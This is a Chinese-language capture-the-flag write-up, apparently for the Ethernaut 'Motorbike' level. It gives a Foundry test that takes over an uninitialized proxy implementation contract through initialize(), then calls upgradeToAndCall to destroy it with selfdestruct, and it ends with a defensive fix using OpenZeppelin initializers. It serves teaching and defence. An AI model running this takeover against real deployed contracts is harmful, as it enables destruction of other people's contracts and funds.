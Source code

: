 ```solidity
        // 从代理合约的存储中读取实现合约的地址
        bytes32 implementationSlot = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;
        engineAddress = address(uint160(uint256(vm.load(address(motorbikeInstance), implementationSlot))));
        engineInstance = IEngine(engineAddress);
    }

    function testMotorbikeAttack() public {
        vm.startPrank(player);

        // 1. 部署攻击合约
        Attack attackContract = new Attack();

        // 2. 直接调用实现合约的 initialize 函数，成为 upgrader
        engineInstance.initialize();
        assertEq(engineInstance.upgrader(), player, "Player should be the upgrader");

        // 3. 升级实现合约为我们的攻击合约，并调用 boom() 函数自毁
        bytes memory data = abi.encodeWithSignature("boom()");
        engineInstance.upgradeToAndCall(address(attackContract), data);

        // 4. 验证实现合约的代码是否已被移除
        assertEq(engineAddress.code.length, 0, "Engine contract should be destroyed");

        vm.stopPrank();
    }
}
```

### 关键攻击步骤

1.  **定位实现合约**: 使用 `vm.load` 和 EIP-1967 定义的存储槽位地址，从代理合约中找到 `Engine` 实现合约的地址。
2.  **调用 `initialize()`**: 直接与 `Engine` 合约交互，调用其 `initialize()` 函数，将 `player` 设置为 `upgrader`。
3.  **部署攻击合约**: 创建一个简单的 `Attack` 合约，其中包含一个公共的 `boom()` 函数，该函数会调用 `selfdestruct`。
4.  **执行 `upgradeToAndCall()`**: 调用 `Engine` 合约的 `upgradeToAndCall()`，将 `newImplementation` 设置为 `Attack` 合约的地址，并将 `data` 设置为 `boom()` 函数的函数选择器。

## 🛡️ 防御措施

1.  **初始化实现合约**: 在部署实现合约后，应立即调用其 `initialize` 函数（或在构造函数中完成初始化），以防止其他人抢先调用。可以添加一个 `initialized` 状态变量来确保初始化只进行一次。

    ```solidity
    // 修复建议
    contract Engine {
        bool private _initialized;
        constructor() {
            _disableInitializers();
        }
        function initialize() public initializer {
            // ...
        }
    }
    ```
    OpenZeppelin 的 `Initializable` 合约提供了一个 `initializer` 修饰符，可以很好地解决这个问题。

